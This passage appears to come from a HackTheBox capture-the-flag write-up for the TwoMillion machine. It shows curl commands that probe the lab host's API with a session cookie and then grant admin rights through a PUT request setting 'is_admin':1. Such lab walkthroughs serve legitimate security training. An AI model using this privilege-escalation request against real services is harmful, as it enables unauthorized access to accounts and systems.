 ```bash
curl -s -X GET "http://2million.htb/api/v1" -v
```

![get_api_v1](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/get_api_v1.png)

The response is *Unauthorized*. Using our session cookie, we retry:

```bash
curl -s -X GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" | jq
```

![get_api_v1_with_cookies](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/get_api_v1_with_cookies.png)

Now we see two sections: `user` and `admin`.

Checking admin authentication:

```bash
curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" | jq
```

![current_user_admin_false](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/current_user_admin_false.png)

Our user is not admin. Let's try a POST:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" -v
```

![post_vpn_generate](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/post_vpn_generate.png)

We are not authorized again.

---
## 4. Privilege Escalation via API Manipulation

Trying a PUT request to update settings:

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=..." | jq
```

![post_settings_update_invalid_content_type](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/post_settings_update_invalid_content_type.png)

The response indicates `invalid content-type`. After trying several combinations, we fix this with JSON headers:

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" -H "Content-Type: application/json" -d '{"email":"test@test.com", "is_admin":1}' | jq
```

![convert_test_user_into_admin](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/convert_test_user_into_admin.png)

